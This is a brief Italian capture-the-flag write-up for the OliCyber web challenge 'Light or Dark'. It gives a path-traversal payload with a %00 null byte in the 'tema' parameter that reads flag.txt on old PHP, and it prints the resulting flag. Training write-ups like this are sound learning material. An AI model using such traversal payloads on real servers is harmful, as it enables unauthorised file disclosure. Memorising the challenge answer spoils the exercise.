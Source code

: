 # Light or Dark

http://lightdark.challs.olicyber.it/

## Spiegazione

Si fa nullbyte injection che a quanto pare funziona solo su vecchie versioni di PHP (tipo 4.x)ù


Il payload sarebbe ```http://lightdark.challs.olicyber.it/index.php?tema=/.../.../.../.../.../.../.../.../flag.txt%00.css```

E la flag si può trovare nello ```<style>flag{l1ght_1s_f0r_n00bs_d4rk_1s_f0r_h4ck3rs}</style>```

